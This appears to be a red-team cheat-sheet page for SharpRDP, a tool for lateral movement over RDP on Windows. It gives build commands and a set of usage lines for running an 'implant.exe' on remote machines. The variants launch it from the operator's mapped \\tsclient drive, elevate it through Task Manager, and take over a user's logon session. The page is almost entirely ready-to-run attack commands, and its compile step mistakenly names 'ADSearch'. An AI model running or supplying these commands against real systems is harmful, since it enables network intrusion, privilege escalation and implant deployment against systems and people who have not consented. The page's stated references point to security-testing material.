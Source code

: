 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - offensive-tools
  - T1021-001
  - network-protocols
  - rdp
  - windows
---
```

# SharpRDP

## 01 - Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481).  Then compile `ADSearch`.

```
C:\> git clone https://github.com/0xthirteen/SharpRDP

C:\> cd SharpRDP

C:\SharpRDP> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

## 02 - Usage

Regular RDP connection and execution

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="<commands>"
```

`exec` program as child process of `cmd` or `powershell`.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\implant.exe" exec=cmd
```

Connect first host drives

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="\\tsclient\C\Temp\implant.exe" connectdrive=true
```

Execute command elevated through task manager.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\implant.exe\" elevated=taskmgr
```

Add Network Level Authentication

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\implant.exe\" nla=true
```

Ask to take over logon session.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\implant.exe\" takeover=true
```

---
## References

### Github

- [SharpRDP](https://github.com/0xthirteen/SharpRDP)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)